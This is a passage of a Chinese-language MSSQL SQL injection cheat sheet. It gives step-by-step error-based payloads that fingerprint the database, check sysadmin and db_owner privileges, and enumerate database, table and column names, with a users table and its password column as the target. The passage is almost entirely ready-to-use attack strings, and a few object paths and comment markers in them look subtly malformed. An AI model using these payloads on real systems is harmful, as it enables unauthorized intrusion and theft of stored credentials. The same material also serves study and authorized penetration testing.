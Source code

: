 ```sql
#1. 判断注入点
	id=1'			'#报错，	=>		字符型
	id=1 and 1=1	#返回正常
	id=1 and 1=2	#返回错误		=>  数字型
#2. 判断是否为MSSQL数据库
	id=1 and exists(select * from sysobjects) --+	#返回正常为mssql
	id=1 and exists(select count(*) from sysobjects) --+
#3. 判断数据库版本号
	id=1 and @@version>0 --+
	#@@version为mssql的全局变量，暴露出数据库信息
#4. 判断当前服务器角色是否拥有比较高的权限
	id=1 and 1=(select is_srvrolemember('sysadmin')) --+	#是否为sysadmin权限
#5. 判断当前数据库角色是否为DB_OWNER
	id=1 and 1=(select is_member('db_owner')) --+	 	#是否为db_owner权限
#6. 获取当前用户名字
	id=1 and user_name()>0 --+
```

###### ②获取数据库名

```sql
#1. 获取当前数据库
	id=1 and db_name()>0 --+
    id=1 and 1=db_name() --+
#2. 获取数据库的个数
	id=1 and 1=(select quotename(count(name) from master.sys.dbo.databases)) --+
#3. 获取所有数据库名 
	id=1 and (select name from master.sys.dbo.databases where database_id=1)>0 #
	or
	id=1 and 1=(select quotename(name) from master.sys.dbo.databases FOR XML PATH('')) --+
```

###### ③获取表名

```sql
#1. 获取第一个表名
	id=1 and 1=(select top 1 table_name from information_schema.tables) --+
#2. 获取其他表名
	id=1 and 1=(select top 1 table_name from information_schema.tables where table_name not in(select top m table_name from information_schema.tables)) --+		#m为第几个表
	or
	id=1 and 1=(select quotename(table_name) from information_schema.tables FOR XML PATH('')) -+
```

###### ④获取字段名

```sql
#1. 获取当前字段名
	id=1 and 1=(select top 1 column_name from information_schema.columns where table_name='users') --+
#2. 获取所有字段名
	id=1 and 1=(select top 1 column_name from information_schema.columns where table_name='users' and column_name not in('id','username','password')) --+		#后面跟表的字段
	or
    id=1 and 1=(select quotename(column_name) from information_schema.columns where table_name='users' FOR XML PATH('')) --+
```
